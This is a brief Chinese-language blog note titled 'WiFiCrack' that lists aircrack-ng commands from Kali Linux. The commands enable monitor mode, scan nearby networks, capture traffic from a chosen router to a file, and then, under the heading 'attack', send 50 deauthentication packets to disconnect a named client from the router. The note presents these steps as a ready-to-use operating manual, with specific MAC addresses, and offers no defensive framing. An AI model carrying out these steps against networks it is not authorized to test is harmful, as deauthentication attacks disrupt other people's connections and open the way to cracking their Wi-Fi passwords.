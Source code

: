 ```yaml
---
title: WiFiCrack
date: 2019-10-19 19:00:53
categories: 操作手册
tags:
  - Aircrack-ng
  - Kali Linux
---
```


{% noteblock quote cyan %}

WiFiCrack 笔记。

{% endnoteblock %}

<!-- more -->

## 开启监听

```shell
airmon-ng start wlan0
```

## 扫描信号

```shell
airodump-ng wlan0mon
```

## 选定 Wi-Fi 监听

```shell
airodump-ng wlan0mon -c 11 --bssid BC:46:99:3D:66:D6 -w doc # -w指定生成的文件名 -c指定信道 --bssid指定路由器的MAC地址
```

## 攻击

```shell
aireplay-ng -0 50 -a E2:A5:3E:6B:F7:21 -c 44:C3:46:40:7E:5D   wlan0mon # -0指定发包的数量 -a指定路由器的MAC地址  -c指定连接的客户端的MAC地址
```

